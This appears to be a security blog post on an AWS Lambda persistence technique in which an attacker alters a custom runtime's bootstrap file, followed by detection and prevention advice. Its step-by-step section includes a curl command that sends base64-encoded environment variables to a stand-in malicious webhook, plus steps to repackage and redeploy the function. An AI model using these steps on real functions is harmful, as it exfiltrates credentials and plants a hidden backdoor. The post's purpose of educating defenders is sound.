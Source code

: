 ```yaml
---
title: Unmasking Lambda's Hidden Threat - When Your Bootstrap Becomes a Backdoor
date: 2025-07-11
authors:
  - guillermofernandezcano
  - sergiojimenez
categories:
  - Lambda
  - Persistence
tags:
  - backdoor
  - persistence
  - lambda 
  - bootstrap
  - runtime
  - webhook
---
```


-----
<p align="center">
  <img src="/../assets/images/bootstrap.png" alt="Lambda Bootstrap" width="700"/>
</p>


So, you've jumped on the serverless bandwagon, huh? All that auto-scaling, no servers to patch, just pure code magic. It feels invincible, right? Well, sorry to burst your bubble, but even in the land of ephemeral functions, bad actors are finding ways to stick around longer than an awkward family dinner. Today, we're pulling back the curtain on one of those particularly sneaky tricks: achieving persistence in AWS Lambda by messing with its very heart – the custom runtime `bootstrap` file.
<!-- more -->
### Why the Bootstrap? Understanding the Context

AWS Lambda allows developers to use custom runtimes. This is made possible by the **Lambda Runtime API** and a key executable: the `bootstrap` file. When a Lambda function with a custom runtime is invoked, AWS calls this `bootstrap` file. Its purpose is to initialize the runtime environment, load the function's code and manage the lifecycle of invocations, directly interacting with the Runtime API to send and receive events.

Herein lies the opportunity for an attacker: if a function with a custom runtime is compromised and sufficient permissions are obtained, modifying this `bootstrap` allows malicious code to be injected. This code will execute *before* the legitimate function code on every invocation, ensuring stealthy persistence, even if the main function's code is subsequently updated.

### The Attack in Detail: Simulating Persistence

Simulating this attack requires initial access to the compromised Lambda function and permissions to modify its code.

**Prerequisites:**

* An existing Lambda function with a **custom runtime**.
* IAM permissions for `lambda:UpdateFunctionCode`.
* Ability to write to `/tmp` or `/var/task` (though direct `bootstrap` modification is more direct).
* A webhook for exfiltration (e.g., `webhook.site`).

**Simulation Steps:**

1.  **Download the current function:**
    The first step is to get the function's code. This can be done using `aws lambda get-function --function-name your-function-name --query 'Code.Location'` to get the ZIP package URL, then downloading it.

    ```bash
    aws lambda get-function --function-name my-affected-function --query 'Code.Location' --output text > code_location.txt
    wget -O function.zip $(cat code_location.txt)
    unzip function.zip -d extracted_function
    ```

2.  **Edit the `bootstrap`:**
    Inside the `extracted_function` directory, locate the `bootstrap` file. Add a malicious line to the beginning of this file. For example, to exfiltrate environment variables to your webhook:

    ```bash
    # Add this line to the beginning of the 'extracted_function/bootstrap' file
    curl -X POST -H "Content-Type: application/json" -d "$(env | base64)" [https://your-malicious-webhook.site/path](https://your-malicious-webhook.site/path) &
    ```
    The `&` at the end is crucial for the command to execute in the background and not block the runtime's startup, allowing the legitimate function to run without obvious interruptions for the user or application.

3.  **Upload the changes:**
    Repackage the function and upload it to AWS.

    ```bash
    zip -r new_function.zip extracted_function/
    aws lambda update-function-code --function-name my-affected-function --zip-file fileb://new_function.zip
    ```

Once the function is invoked, the malicious `bootstrap` will execute, sending the desired information to your webhook, all while the original function proceeds normally.

### Implications and Comparison with Other Techniques

This technique is particularly stealthy because the `bootstrap` is a fundamental file for the runtime, and its modification can go unnoticed if not explicitly audited. Unlike simply modifying the function code (which could be overwritten by a legitimate deployment), the `bootstrap` change persists through updates to the main function's code, as the `bootstrap` is part of the runtime environment, not the application code.

Other Lambda persistence techniques include:
* **Backdooring existing runtimes (e.g., Python/Node.js):** Modifying standard libraries or modules so that malicious code executes when the function imports them.
* **"Runtime Swapping":** Changing an existing function's runtime to a custom one controlled by the attacker.
* **Malicious Layers:** If an attacker can create or modify a Lambda Layer used by a target function, they can inject compromised code or dependencies.

The `bootstrap` attack stands out for its subtlety and ability to survive legitimate code deployments, making it an advanced and dangerous technique.

### Fortifying Your Defenses: Prevention and Detection

Detecting and preventing these types of attacks requires a multifaceted and proactive approach to serverless security.

1.  **Continuous Detection and Monitoring (Runtime and Behavior):**
    * **Amazon CloudTrail:** Monitor and alert on critical events such as `UpdateFunctionCode`, `CreateFunction`, `CreateFunctionUrlConfig`, and `UpdateFunctionConfiguration`. Set up Amazon EventBridge alarms for immediate notifications of any unexpected function modifications.
    * **Amazon GuardDuty & AWS Security Hub:** Enable these services. GuardDuty can detect anomalous behavior, such as unusual outbound connections to suspicious domains from a Lambda function that normally shouldn't communicate externally. Security Hub consolidates findings and offers centralized visibility.
    * **Runtime Security:** Implement third-party solutions like Sysdig, Upwind, Palo Alto Networks Prisma Cloud, Aqua Security, or Lacework. These tools can detect command injections, runtime file modifications (`bootstrap`), or anomalous processes within the Lambda environment.

2.  **`bootstrap` Content Review:**
    * **Manual and Automated Auditing:** For functions with custom runtimes, the `bootstrap` file must be rigorously audited. Integrate validations in your CI/CD pipelines that block deployments with suspicious commands (e.g., `curl`, `nc`, `wget`) or unauthorized changes in the `bootstrap`.
    * **Hash Monitoring:** Use `aws lambda get-function --query 'Configuration.CodeSha256'` to get the ZIP code hash. Store and monitor these hashes to detect any unexpected changes in the function's deployment package.

3.  **Supply Chain Security:**
    * **Code Signing:** AWS Lambda supports code signing. Enable this feature to ensure that only code packages signed by trusted entities can be deployed to your functions. This would thwart any attempt to deploy a modified `bootstrap` without the proper signature.
    * **Container Image Scanning:** If you use container images as a runtime for Lambda, integrate Amazon Inspector or third-party tools into your pipeline to continuously scan images for vulnerabilities and malicious content, including `bootstrap` modifications.

4.  **Least Privilege and Isolation Principles:**
    * **IAM Least Privilege:** Ensure that Lambda deployment IAM roles (`lambda:UpdateFunctionCode`) and execution roles (`lambda:InvokeFunction`) have only the strictly necessary permissions. Avoid granting excessive permissions that could be exploited.
    * **Network Restrictions (VPC):** Place critical Lambda functions within an Amazon VPC. If a function does not require internet access, avoid configuring a NAT Gateway. This drastically restricts an attacker's ability to exfiltrate data to external webhooks.

---

The world of serverless security is always evolving, and as defenders, so must we. Understanding how seemingly benign components like the `bootstrap` can be weaponized is key to staying ahead. Keep your eyes peeled, your CloudTrails flowing, and your security tools sharp. The cloud might feel like magic, but even magic has its dark corners – it's up to us to shine a light on them.
